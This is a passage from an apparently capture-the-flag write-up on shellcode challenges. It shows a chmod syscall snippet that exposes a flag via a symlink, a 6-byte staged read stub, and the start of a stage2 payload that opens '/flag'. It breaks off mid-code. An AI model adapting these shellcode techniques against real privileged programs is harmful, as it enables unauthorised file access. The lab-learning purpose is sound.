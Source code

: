```nasm
.global _start

_start:
	; chmod(flag_symlink, garbage_that_ends_in_0100)
    push 0x66
    push rsp
    pop rdi
    mov sil, 4

    mov al, 90
    syscall
```
# level14
- only 6 bytes?
- not possible to craft independent shellcode in 6 bytes. we need to salvage what we have when we call the shellcode. also, the program does not strip write permission from the memory map, which means possibility for staged shellcode
- this is the state of registers and memory when we call the shellcode.
```nasm
0x00000000251c8000 in ?? ()
1: /x $rdi = 0x7c242f1a37e0
2: /x $rsi = 0x7c242f1a2723
3: /x $rdx = 0x251c8000
4: /x $r10 = 0x6501eb76f105
5: /x $rax = 0x0
7: x/10xg $rsp
0x7ffd343e28c8: 0x00006501eb76e7c3      0x00007ffd343e28f6
0x7ffd343e28d8: 0x00007ffd343e2a18      0x00007ffd343e2a08
0x7ffd343e28e8: 0x00000001eb76e7e0      0x0000000000000000
0x7ffd343e28f8: 0x00002710eb76e200      0x00007ffd343e2a10
0x7ffd343e2908: 0x00007ffd343e2ab0      0x0000000000000000
```
- rax is already zero, so we can call read.
- memory region is in rdx, we can exchange rdx and rsi with xchg, so that rsi can point to shellcode mem region.
- we can null rdi with xor. now we can `read(0, mem_addr, some_large_value)`
- for stage2, we can use a generic shellcode with atleast 6 nops at the beginnning.
stage1:
```nasm
.intel_syntax noprefix
.global _start

_start:
    xor edi, edi ; 2 bytes
    xchg edx, esi ; 2 bytes
    syscall ; 2 bytes
```
stage2:
```nasm
.intel_syntax noprefix

.global _start

_start:
    .rept 50
    nop
    .endr
    call pwn
    .string "/flag"
    .byte 0x00
pwn:
    ; open(flag, 0)
```